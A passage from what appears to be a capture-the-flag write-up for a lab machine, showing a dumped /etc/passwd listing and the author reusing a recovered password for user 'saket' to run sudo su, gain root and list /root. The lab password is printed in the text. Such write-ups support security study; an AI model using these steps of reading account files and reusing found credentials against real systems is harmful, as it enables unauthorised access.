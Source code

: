 ```shell
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:117:123::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false
whoopsie:x:120:125::/nonexistent:/bin/false
colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:122:127::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:123:128:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:124:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:125:130:Gnome Display Manager:/var/lib/gdm3:/bin/false
saket:x:1000:1000:Ubuntu_CTF,,,:/home/saket:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:126:133:MySQL Server,,,:/nonexistent:/bin/false
```

Well, we found the user `saket` which we has seen it in `users` table. Try to switch to it with password `Saket@#$1337` and su to root:

```shell
saket@ubuntu:/$ id
id
uid=1000(saket) gid=1000(saket) groups=1000(saket),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare)
saket@ubuntu:/$ sudo -l
sudo -l
[sudo] password for saket: Saket@#$1337

Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
saket@ubuntu:/$ sudo su
sudo su
root@ubuntu:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/# ls /root
ls /root
app.apk  Documents  Music     Public  Templates
Desktop  Downloads  Pictures  snap    Videos
```

## Notes

